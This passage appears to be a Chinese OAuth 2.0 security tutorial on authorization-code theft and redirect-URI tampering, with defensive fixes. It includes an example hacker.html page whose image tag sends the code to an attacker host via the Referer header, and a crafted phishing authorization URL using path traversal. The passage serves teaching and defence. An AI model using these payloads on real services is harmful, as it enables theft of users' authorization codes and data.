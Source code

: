 接下来，我们再看两种OAuth 2.0专有的安全攻击，分别是授权码失窃、重定向URI被篡改。

## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件A有合法的app\_id和app\_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户G对第三方软件B，比如极客时间，进行授权并产生了一个授权码codeB，但并没有对攻击者软件A授权。此时，软件A是不能访问用户G的所有数据的。但这时，如果软件A获取了这个codeB，是不是就能够在没有获得用户G授权的情况下访问用户G的数据了？整个过程如下图所示。

![](https://static001.geekbang.org/resource/image/7d/7b/7d464d5a0c49a77862fef10f77cf057b.png?wh=1690%2A926 "图5 授权码失窃攻击过程")

**这时问题的根源就在于两点：**

- 授权服务在进行授权码校验的时候，没有校验app\_id\_B；
- 软件B（也就是极客时间）使用过一次codeB的值之后，授权服务没有删除这个codeB；

看到这里，通过校验app\_id\_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是OAuth 2.0中因重定向URI校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向URI被篡改。

## 重定向URI被篡改

有的时候，授权服务提供方并没有对第三方软件的回调URI做完整性要求和完整性校验。比如，第三软件B极客时间的详细回调URI是`https://time.geekbang.org/callback`，那么在完整性校验缺失的情况下，只要以`https://time.geekbang.org`开始的回调URI地址，都会被认为是合法的。

此时，如果黑客在`https://time.geekbang.org/page/`下，创建了一个页面**hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```
<html>
<img src ="https://clientA.com/catch">
</html>
```

好了，我们继续看下接下来的攻击流程：

![](https://static001.geekbang.org/resource/image/04/41/04d71e6a8d32fe8b516db7e7424bf141.png?wh=1610%2A1260 "图6 重定向URI被篡改的攻击过程")

首先，黑客将构造的攻击页面放到对应的hacker.html上，也就是`https://time.geekbang.org/page/hacker.html`上 ，同时构造出了一个新的重定向URI，即`https://time.geekbang.org/page/welcome/back.html../hacker.html`。

然后，黑客利用一些钓鱼手段诱导用户，去点击下面的这个地址：

```
https://oauth-server.com/auth?respons_type=code&client_id=CLIENTID&redirect_uri=https://time.geekbang.org/page/welcome/back.html../hacker.html
```

这样当授权服务做出响应进行重定向请求的时候，授权码code就返回到了hacker.html这个页面上。

最后，黑客在`https://clientA.com/catch`页面上，解析Referrer头部就会得到用户的授权码，继而就可以像授权码失窃的场景中那样去换取访问令牌了。

看到这里我们就知道了，如果授权服务要求的回调URI是`https://time.geekbang.org/callback`，并做了回调URI的完整性校验，那么被篡改之后的回调地址`https://time.geekbang.org/page/welcome/back.html../hacker.html`就不会被授权服务去发起重定向请求。

严格来讲，要发生这样的漏洞问题，条件还是比较苛刻的。从图6的重定向URI被篡改的流程中，也可以看到，只要我们在授权服务验证第三方软件的请求时做了签名校验，那么攻击者在只拿到授权码code的情况下，仍然无法获取访问令牌，因为第三方软件只有通过访问令牌才能够访问用户的数据。
